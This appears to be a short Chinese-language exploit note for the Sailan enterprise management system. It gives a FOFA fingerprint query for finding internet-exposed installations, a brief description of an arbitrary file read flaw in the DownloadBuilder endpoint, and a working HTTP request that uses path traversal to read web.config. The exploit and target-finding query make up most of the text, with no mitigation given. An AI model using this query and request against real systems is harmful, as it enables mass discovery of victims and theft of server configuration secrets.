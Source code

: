 **fofa**

```
body="cailsoft.com" || body="赛蓝企业管理系统"
```

**一、漏洞简述**

赛蓝企业经营管理系统是一款功能强大的管理软件，能够帮助企业提升管理效率，降低成本，实现可持续发展。在使用过程中，需注意与用友畅捷通旗下产品的配合，并随时寻求免费试用或在线咨询帮助，以保证系统的最佳使用效果。其接口DownloadBuilder存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /BaseModule/ReportManage/DownloadBuilder?filename=/../web.config HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

